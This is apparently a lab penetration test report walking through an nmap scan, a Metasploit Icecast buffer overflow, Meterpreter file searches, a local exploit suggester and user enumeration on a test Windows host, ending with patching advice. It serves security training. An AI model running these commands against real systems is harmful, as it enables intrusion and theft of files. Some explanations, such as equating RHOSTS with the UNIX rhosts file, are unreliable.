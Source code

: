     GoodSecurity Penetration Test Report 

    Abdisalan-Firin@GoodSecurity.com

    DATE
    11/01/2021

 ### 1.0 High-Level Summary

GoodSecurity was tasked with performing an internal penetration test on GoodCorp’s CEO, Hans Gruber. An internal penetration test is a dedicated attack against internally connected systems. The focus of this test is to perform attacks, similar to those of a hacker and attempt to infiltrate Hans’ computer and determine if it is at risk. GoodSecurity’s overall objective was to exploit any vulnerable software and find the secret recipe file on Hans’ computer, while reporting the findings back to GoodCorp.
When performing the internal penetration test, there were several alarming vulnerabilities that were
identified on Hans’ desktop. When performing the attacks, GoodSecurity was able to gain access to his machine and find the secret recipe file by exploit two programs that had major vulnerabilities. The details of the attack can be found in the ‘Findings’ category.
       2.0 Findings

### Machine IP:
    192.168.0.20
### Hostname:
    MSEDGEWIN10
### Vulnerability Exploited:
    Exploit/windows/http/icecast_header

    Vulnerability Explanation:

The Vulnerability i found Icecast application running on 192.168.0.20 allows for a buffer overflow exploit and any attacker can remotely gain control of the victim’s system by overwriting the memory on the system utilizing the Icecast flaw, which writes past the end of a pointer array when receiving 32 HTTP headers. this will overwrite the saved instruction pointer and leave Icecast thinking one of the processor threads is still occupied by one of its methods; in reality, the running process is a malicious payload.

Some remote actions able to be executed are:

    File discovery
    Key logging 
    screen capture
    Privilege escalation to Administrator 
I also find this vulnerable to the following exploits:

    exploit/windows/local/ikeext_service
    exploit/windows/local/ms16_075_reflection

### Severity:

This exploit is very severe and Critical as it allows malicious actors to run any manor of arbitrary code on the host’s machine.

### Proof of Concept:

1. Perform a service and version scan using Nmap to determine which services are up and running: 

- nmap -sS -sV -O 192.168.0.20

    - nmap: allows you to scan your network and discover not only everything connected to it.
    - -sS: its for TCP SYN port scan.
    - -sV: it is determine the version of the service running on port. 
    - -O: is the Remote OS detection using TCP/IP.

After scanning networks for vulnerabilities, we can execute the exploits that we know an organization is vulnerable to.

    Using nmap to scan the system to see any port open
 ![using nmap to scan the system](./Images/snep-1.PNG)


2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
   
     searchsploit -t Icecast windows
<Result> (exploits/windows_x86/remote/16763.rb)

Now we’ll use a tool called SearchSploit to locally store a library of exploit information and the scripts used to execute the exploits.


    Icecast exploits
![icecast exploits](./Images/snap-2.PNG)


3. Start Metasploit and search for the Icecast module and load it for use.:
 
    - Msfconsole.
    
    - Search icecast.
    
    - Use 0.

- The Metasploit is a computer security that provides information about security vulnerabilities and aids in penetration testing and IDS signature development. 
- MSFconsole provides a command line interface to access and work with the Metasploit.

    starting metasploit and searching icecast
 ![RHOST setting](./Images/snap-x.PNG)
 
 ![Metasploits](./Images/snap-3.PNG)

 ![Metasploits](./Images/snap-y.PNG)

4. Set the `RHOST` to the target machine and run.

    - set RHOSTS 192.168.0.20.
    - run.

-   Rhosts allows me to log in to a UNIX-based system from another computer on the same network.
-   The rhosts file contains a list of hosts and user names that determines who can log in to a system remotely without a password.

    Setting RHOST to IP adress
![RHOST setting](./Images/snap-4.PNG)


5. Search for the `secretfile.txt` on the target.
If i run either of this command and i should have similar results.

    - meterpreter > search -f *secret*.

    - meterpreter > shell.

- Meterpreter allows me to remotely take over the compromised system, having control of the file system, collect sensitive information such as credentials and secret files.
- Shell is a software program that provides direct communication between you and the operating system or application, providing an environment to automate IT operations.

    The search of the secret 
![The search of secret file](./Images/snap-xy.PNG)

6. Search for the `recipe.txt` on the target and download the file:
    
    - meterpreter > search -f *recipe*
    - meterpreter > cd 'C:\Users/IEUser/Documents
    - meterpreter > ls
    - meterpreter > cat Drinks.recipe.txt
    - meterpreter > cat user.secretfile.txt

    Search of the recipe
    ![search of the recipe](./Images/snap-6.PNG)
    
    ![search of the recipe](./Images/snap-f.PNG)

7. Use Meterpreter's local exploit suggester to find possible exploits.
    
    - meterpreter> run post/multi/recon/local_exploit_suggestor

The system was also found to be vulnerable to the following exploits:
    
    - exploit/windows/local/ikeext_service
    - exploit/windows/local/ms16_075_reflection

    Using meterpreter for local exploit
   ![Using meterpreter for local exploit](./Images/snap-7.PNG)

8. Run a Meterpreter post script that enumerates all logged on users.
    
    - run post/windows/gather/enum_logged_on_users
    
    
    Using meterpreter post script
  ![Using meterpreter post script](./Images/snap-8.PNG)

9. Running the sysinfo command
 
    system info
 ![sysinfo](./Images/snap-9.PNG)

 ![sysinfo](./Images/snap-a.PNG)
 
 ![sysinfo](./Images/snap-b.PNG)

### Overall Recommendations

Icecast exploit is old and the vulnerability can be fixed with a patch or Install the latest version of this and all other software.
Encrypt the files and folders that you want to keep a secret
Enable the windows firewall with rules to only explicitly allow traffic on needed ports.